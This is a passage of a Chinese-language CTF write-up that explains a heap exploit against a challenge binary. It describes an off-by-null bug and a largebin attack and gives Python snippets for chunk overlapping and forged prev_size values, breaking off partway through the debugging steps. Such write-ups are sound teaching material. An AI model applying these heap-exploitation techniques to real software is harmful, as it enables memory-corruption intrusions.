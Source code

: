  ![image-20211226162020179](/assets/wgpsec/images/heap/image-20211226162020179.png)	

#### delete_note函数

​    这个函数就是正常free堆指针，并置0。

 ![image-20211226162039560](/assets/wgpsec/images/heap/image-20211226162039560.png)

#### backdoor函数

​    程序提供一个可以直接getshell的后门，触发的条件就是输入的数据与mmap映射的空间的前48个字节相同。

 ![image-20211226162057414](/assets/wgpsec/images/heap/image-20211226162057414.png)

### 利用思路

1. 利用off_by_null漏洞实现chunk overlapping，从而控制堆块内容。

2. 将处于unsortedbin的可控制的chunk放入largebin中，以便触发largebin attack

3. 伪造largebin的bk和bk_nextsize指针，通过malloc触发漏洞，分配到目标地址，实现任意地址写。

4. 触发后门

###  调试过程

#### 1.Chunk overlapping

​    首先分配7个chunk，chunk1和chunk4是用于放入largebin的大chunk，chunk6防止top chunk合并。Chunk结构如下。

 ```python
 add(0x18)  #0
 add(0x508) #1
 add(0x18)  #2
 
 add(0x18)  #3
 add(0x508) #4
 add(0x18)  #5
 add(0x18)  #6
 ```

![image-20211226162219738](/assets/wgpsec/images/heap/image-20211226162219738.png)

​    构造两个伪造的prev_size，用于绕过malloc检查，保护下一个chunk的prev_size不被修改。如下图所示。

 ```python
 edit(1,'a'*0x4f0+p64(0x500)) #prev_size
 edit(4,'a'*0x4f0+p64(0x500)) #prev_size
 ```

![image-20211226162256759](/assets/wgpsec/images/heap/image-20211226162256759.png)

​    接着利用off by null漏洞改写chunk 1的size为0x500。

```python
free(1)
edit(0,'a'*0x18) #off by null
```
